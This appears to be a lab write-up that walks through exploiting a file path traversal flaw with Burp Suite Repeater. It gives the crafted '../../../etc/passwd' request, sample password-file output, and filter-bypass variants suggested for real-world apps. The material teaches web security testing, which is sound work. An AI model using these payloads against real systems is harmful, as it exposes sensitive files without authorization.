

🧪 Lab: File Path Traversal (Solved Using Repeater)
🎯 Goal

Retrieve the contents of /etc/passwd

🛠️ Steps (Using Burp Suite Repeater)
1. Intercept the Request
Open the lab in your browser
Turn Intercept ON in Burp
Click on a product image

You’ll capture something like:

GET /image?filename=product.jpg HTTP/1.1
Host: target
2. Send to Repeater
Right-click the request
Click Send to Repeater
3. Modify the Payload

Now change the filename parameter:

GET /image?filename=../../../etc/passwd HTTP/1.1
Host: target
4. Send the Request
Click Send in Repeater
5. Observe the Response

You will see something like:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

✅ This confirms the vulnerability

💡 Why This Works (Simple Explanation)

The server:

Takes your input (filename)
Directly reads files from the system
❌ Does NOT validate the path

So when you use:

../../../etc/passwd

You:

Move up directories (../)
Access a sensitive system file
🧠 Pro Tip

Try variations like:

../../../../etc/passwd
....//....//etc/passwd

👉 These help bypass filters in real-world apps

